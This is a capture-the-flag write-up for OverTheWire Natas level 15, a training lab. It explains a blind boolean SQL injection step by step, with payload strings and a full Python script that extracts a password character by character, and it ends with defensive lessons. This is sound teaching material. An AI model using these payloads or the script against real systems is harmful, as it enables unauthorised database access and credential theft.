




# OverTheWire - Natas - Level 15

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas15` password in the previous challenge, it can be
used to log into http://natas15.natas.labs.overthewire.org:



## Initial Analysis

This appears a bit similar to the previous challenge except that it only has a
`Username` input box. The `Login` button has been changed to `Check existence`.

There is also a `View sourcecode` link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. Look for SQL injection possibilities in the code

## Step-by-Step Solution

Clicking the `View sourcecode` link show the source code for the web page. The
passwords are censored, but the PHP code for the page is shown:



Some formatting and comments help to understand what this PHP code is doing:

```php
// Check to see if the "username" input is in the request: in other words, did
// the user click the "Login" button?
if (array_key_exists("username", $_REQUEST)) {
  // Create a connnection to the MySQL database.
  $link = mysqli_connect('localhost', 'natas15', '<censored>');
  mysqli_select_db($link, 'natas15');

  // Set up the SQL query used to check if the username is in the database.
  $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";

  // Some debug functionality to print the query before running it. This could
  // be enabled using the Developer Tools to add a hidden "debug" element to the
  // form data.
  if (array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
  }

  $res = mysqli_query($link, $query);
  if ($res) {
    // There is a results from the query (it was valid SQL) so if there are rows
    // returned then say that the user exists. If no rows were returned then
    // say that the user doesn't exist.
    if (mysqli_num_rows($res) > 0) {
      echo "This user exists.<br>";
    } else {
      echo "This user doesn't exist.<br>";
    }
  } else {
    // The SQL was not valid.
    echo "Error in query.<br>";
  }

  mysqli_close($link);
}
```

While this code looks like it does the correct job, it's another classic
example of an SQL injection attack. The user input of `username` is not
sanitized, so it can be used to exploit this login process.

For this type of SQL injection, it is very helpful to know what SQL query is
executed:

```php
"SELECT * from users where username=\"" . $_REQUEST["username"] . "\""
```

Entering the username `somebody`, the SQL executed is:

```sql
SELECT * from users where username="somebody"
```

And on the web page this says that the user does not exist:



A not-so-wild guess for the username would be `natas16`:



That is interesting! So the `nata16` does exist in the database, and the user
`somebody` does not. This does not help with the `natas16` password, though. In
the previous challenge it was possible to print data from the database, but in
this challenge there is only a "yes" / "no" answer.

Note how in the SQL the username is in double quotation marks - what if the
username itself actually contained double quotes? For username
`somebody" OR "a" = "a`, the SQL executed is:

```sql
SELECT * from users where username="somebody" OR "a" = "a"
```

and trying this on the web page gives:


Aha! The user "somebody" does not exist, but it's possible to fake the "This
user exists" response by being sneaky with the query. However, this _still_ doesn't help with the password.

What if the username was `natas16" AND password="secret`? The SQL is:

```sql
SELECT * from users where username="natas16" AND "password" = "secret"
```

Now this is getting somewhere! Using this "username" in the web page will show
whether or not the `natas16` password is `secret`:


Not too surprising: it was seen previously that `natas16` is a user, but now it
is seen that the password is not `secret`. This is a step in the right direction
but it still isn't helping to find the password.

All of the previous challenges had passwords that were 32 characters long, and
were made up of the characters `a` to `z`, `A` to `Z`, and `0` to `9`. So each
character has 26 + 26 + 10 = 62 possibilities. A little math says that there are
62 ^ 32, or 62 to the 32nd power, or 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _
62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 _
62 _ 62 _ 62 _ 62 _ 62 _ 62 _ 62 \* 62 possible passwords. That's a lot:
2,044,140,858,269,009,845,555,395,057,970,449,227,406,916,096 possible
passwords. There's no way of brute forcing that.

Also, this way of guessing the password isn't much different than just trying
the password by logging into the next level - so nothing is gained in this SQL
query. There must be a better way!

What if it was possible to guess one letter of the password at a time? Then
instead of 62 ^ 32 combinations, it would be 62 \* 32 = 1,984 combinations. That
is much more reasonable!

To make a guess of the first letter of the password, the "username" to use is
`natas16" AND BINARY SUBSTRING(password, 1, 1) = "a` which results in the SQL:

```sql
SELECT * from users where username="natas16" AND BINARY SUBSTRING(password, 1, 1) = "a"
```


The good news is that the query worked, but the bad news is that the password
does not start with "a" - this isn't too surprising since there are 62 possible
first characters for the password. Note that the SQL says `BINARY`: by default
the MySQL database does case-insensitive string comparison, so the `BINARY`
keyword is the way of saying do case-sensitive string comparison. The parameters
to the `SUBSTRING` function are a string value, the first character position,
and the number of characters to extact from the string. So "1, 1" is the first
character, "2, 1" is the second character, "1, 2" is the first two characters,
etc.

Next the "username" can be updated to check "b" as the first letter. Then "c",
etc, until finally for:

```sql
SELECT * from users where username="natas16" AND BINARY SUBSTRING(password, 1, 1) = "h"
```


Hooray! The first letter of the password is "h". Now to start guessing the
second letter of the password. One way is to extend the `SUBSTRING` to two
characters, such as the "username" of
`natas16" AND BINARY SUBSTRING(password, 1, 2) = "ha` which results in the SQL:

```sql
SELECT * from users where username="natas16" AND BINARY SUBSTRING(password, 1, 2) = "ha"
```


Again, the success here is that the query is correct, even though the second
character of the password isn't "a". Next to try the second character of "b",
etc, and keep extending the number of characters being guessed until all 32
characters of the password are found.

This _could_ be done by typing in the password guesses one by one and eventually
figuring out the entire 32 character password. However, with a worst case of
1,984 guesses, and an average half that, it would be a lot of typing and take a
long time. This is something that needs to be automated: and this can be a very
big leap for non-developers.

### Automate the Process

The first step is to decide what technology to use. This could be done with a
shell script and the `curl` command, but it "feels" like it needs a programming
language. Python is a popular language for "one off" coding, so that's a good
place to start.

It's best to figure out the steps needed using "pseudocode":

1. Get the `natas15` username and password that are needed to call the web
   server
2. Loop over each of the 32 characters in the password
3. Loop over each of the 62 possible password characters
4. Create the "username" parameter that contains the SQL injection for the
   password substring guess
5. Call the web server with an HTTP request duplicating what happens when the
   form is submitted
6. Check the response from the web server. For "This user exists" then the next
   character of the password has been found. For "This user doesn't exist", the
   password guess was wrong and change to the next character

#### Step 1: Credentials

Although the password could be stored in the code, it's poor form to publish
passwords for challenges, so for this demonstration the password must be
entered by the user. In Python this looks like:

```python
import getpass

USERNAME = "natas15"
password = getpass.getpass(prompt=f'Enter password for {USERNAME}: ')
```

#### Step 2: Loop over the password length

First set u[ a variable to hold the correctly-guessed part of the password, and
then do the loop for 0 to 31.
]

```python
correct_guesses = ""
for i in range(0, 32):
```

#### Step 3: Loop over the password characters

This is also fairly easy:

```python
for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
```

#### Step 4: The SQL Injection String

```python
password_guess = correct_guesses + char
print(password_guess)
sqli = f'natas16" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }'
```

#### Step 5: Web Server Request

```python
response = requests.post('http://natas15.natas.labs.overthewire.org/index.php', auth=("natas15", password), data={ "username": sqli })
```

#### Step 6: Response Handling

```python
if 'This user exists' in response.text:
    correct_guesses += char
    break
elif 'This user doesn\'t exist' not in response.text:
    print('Error:' + response.text)
```

And that's it. Bringing it all together:

```python
import getpass
import requests

# Step 1: Credentials
password = getpass.getpass(prompt=f'Enter password for natas15: ')

# Step 2: Loop over the password length
correct_guesses = ""
for i in range(0, 32):
    # Step 3: Loop over the password characters
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        # Step 4: The SQL Injection String
        password_guess = correct_guesses + char
        print(password_guess)
        sqli = f'natas16" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }'

        # Step 5: Web Server Request
        response = requests.post('http://natas15.natas.labs.overthewire.org/index.php', auth=("natas15", password), data={ "username": sqli })

        # Step 6
        if 'This user exists' in response.text:
            correct_guesses += char
            break
        elif 'This user doesn\'t exist' not in response.text:
            print('Error:' + response.text)
```

## Key Takeaways

- SQL injection is a large class of exploits, and side effects of queries can
  be used to slowly discover information
- User input should always be sanitized before use
- Raw SQL queries with appended user input are a classic sign of potential SQL
  injection vulnerabilities

## Beyond the Challenge

It's always a good idea to think about other solutions.

The Python code above will work, but there is a lot of room for improvement. It
is fine for a "one off" challenge, but refactoring the code would make it better
and perhaps more re-usable. As an exercise the file [solution.py](files/level_15/solution.py):

- sets up constants for things like the URL and password characters
- breaks the code into small single-purpose functions
- adds error handling and logging
- keeps track of the total number of HTTP requests needed to find the password
- does a confirmation check at the end to confirm that the password is correct

### Optimization

It is also possible to optimize this code. One nice thing about the
case-insensitive comparison is that it is actually trying two letters at one
time. For example, a case-insensitive check of 'a' could be made, and if it is
true then a case-sensitive check could then be made. So instead of
case-sensitively checking
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`, which takes an average
of 26 guesses, it could case-insensitively check `abcdefghijklmnopqrstuvwxyz`
and if there is a match then do the case-sensitive check. This would be on
average 13 + 1 guesses to do the whole alphabet.

The file [solution_optimized.py](files/level_15/solution_optimized.py) provides
this solution. The unoptimized solution needed ~1000 HTTP requests, but this
optimized solution needs fewer than 600 HTTP requests.
